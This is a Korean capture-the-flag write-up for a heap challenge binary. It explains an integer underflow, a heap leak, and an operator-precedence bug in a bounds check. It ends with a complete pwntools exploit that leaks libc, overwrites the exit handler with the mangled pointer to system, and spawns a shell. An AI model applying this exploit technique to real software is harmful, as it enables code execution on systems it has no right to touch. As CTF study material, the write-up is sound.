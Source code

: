 보호기법
```bash
[*] '/home/csh/main'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
```

처음 유저의 돈은 (1 << 19), `Japanese Wagyu 1024g`은 (1 << 16)원이고, `MAX_SLOT`이 0x11이므로 Integer underflow가 발생한다. money >= (1 >> 31) 을 만족하므로 flag를 살 수 있고, `view_slots`에서 libc_base leak이 가능하다.

물건을 사면 청크가 세 번 할당되는데, 첫 번째 청크(size : 0x20) 에 순서대로
할당된 ptr, 물건의 가격, 할당된 description 이 있다.
물건을 팔면 세 청크가 모두 free된다.

malloc은 청크를 NULL로 정리해주지 않으므로 만약  0x20 크기의 user 데이터로 청크가 재할당된다면 `info_user`를 통해 첫 번째 청크의 할당된 description 주소, 즉 heap_base를 가져올 수 있다.

edit_user에서 `check_idx`가 사용된다.
```C
int check_idx(unsigned long long min, unsigned long long idx, unsigned long long max)
{ // check [min, idx)
    if (min <= idx < max)
        return True;
    else
        return False;
}
```

그런데 min <= idx < max은 개발자가 의도한 대로 작동하지 않는다. (min <= idx) < max 로 간주한다.
1. min <= idx를 검사해 옳으면 1, 옳지 않으면 0을 반환한다.
2. 1.의 결과에 따라 반환된 1또는 0을 max와 비교한다.

따라서 min <= idx라면, max가 2이상이면 무조건 Ture를 반환한다.

```C
void edit_user()
{
    if (user_cnt == 0)
    {
        puts("not select user or didn't create user?");
        return;
    }
    uint8_t idx;
    printf("select user idx > ");
    scanf("%hhu", &idx);
    if (idx >= MAX_USER || !users[idx])
        return;
    unsigned long long cnt = 1;
    unsigned long long off;
    uint8_t val;
    while (cnt <= users[idx]->len)
    {
        write(1, "offset > ", 9);
        unsigned long long off;
        scanf("%llu", &off);
        if (off == 0xffffffffffffffff)
            break;
        if (check_idx(0, off, users[idx]->len))
        {
            write(1, "byte > ", 7);
            scanf("%hhu", &users[idx]->name[off]);
        }
        cnt++;
    }
    write(1, "[*] Done!\n", 10);
    info_user();
    exit(0);
}
```
offset이 unsigned long long int이므로 heap 영역에서 libc 영역까지 닿는다. 함수의 마지막에 `exit`이 있으므로 exit_handler overwrite 를 해주면 되겠다. \([참고](https://velog.io/@chk_pass/Exit-handler-overwrite)\)

```python
from pwn import *

p = remote('host3.dreamhack.games', 15194)
#p = process('./main')
l = ELF('./libc.so.6')

def create(l : int, name : bytes):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'> ', str(l).encode())
    p.sendafter(b'> ', name)

def info_user() -> list:
    p.sendlineafter(b'> ', b'4')
    m = list()
    while True:
        msg = p.recvline()
        if b'create' not in msg :
            m.append(msg)
        else :
            return m

def select(idx : int):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'> ', str(idx).encode())

def buy(idx : int):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'> ', str(idx).encode())

def sell():
    p.sendlineafter(b'> ', b'2')

def info_market() -> list:
    p.sendlineafter(b'> ', b'3')
    m = list()
    while True:
        msg = p.recvline()
        if b'buy' not in msg :
            m.append(msg)
        else :
            return m
    
def logout():
    p.sendlineafter(b'> ', b'4')

create(0x100, b'a' * 10)
select(0)
buy(5)
sell()
logout()
create(0x10, b'a' * 0x10)
heap_base = u64(info_user()[3].strip().split(b' ')[-1][16:].ljust(8, b'\x00')) - (0x55555555c4a0 - 0x55555555c000)
print(hex(heap_base))

select(0)
for _ in range(9):
    buy(5)
buy(6)
l.address = int(info_market()[-2].split(b'(')[1].split(b'$')[0].decode()) - (0x7ffff7ea67d0 - 0x7ffff7d92000)
print(hex(l.address))
logout()

name_p = heap_base + 0x350
fs_base = l.address + (0x7FFFF7D8F740 - 0x7ffff7d92000)
initial = l.address + (0x7ffff7fadf00 - 0x7ffff7d92000)

#edit
p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'> ', b'0')
payload = 0
for i in range(8):
    p.sendlineafter(b'offset > ', str(fs_base + 0x30 - name_p + i).encode())
    p.sendlineafter(b'byte > ', str((payload >> (8 * i)) & 0xff).encode())
    
payload = 4
for i in range(8):
    p.sendlineafter(b'offset > ', str(initial + 0x10 - name_p + i).encode())
    p.sendlineafter(b'byte > ', str((payload >> (8 * i)) & 0xff).encode())

payload = ((l.sym['system'] << 0x11) & 0xffffffffffffffff) ^ ((l.sym['system'] << 0x11) >> 64)
for i in range(8):
    p.sendlineafter(b'offset > ', str(initial + 0x18 - name_p + i).encode())
    p.sendlineafter(b'byte > ', str((payload >> (8 * i)) & 0xff).encode())

payload = list(l.search(b'/bin/sh'))[0]
for i in range(8):
    p.sendlineafter(b'offset > ', str(initial + 0x20 - name_p + i).encode())
    p.sendlineafter(b'byte > ', str((payload >> (8 * i)) & 0xff).encode())
    
p.interactive()
```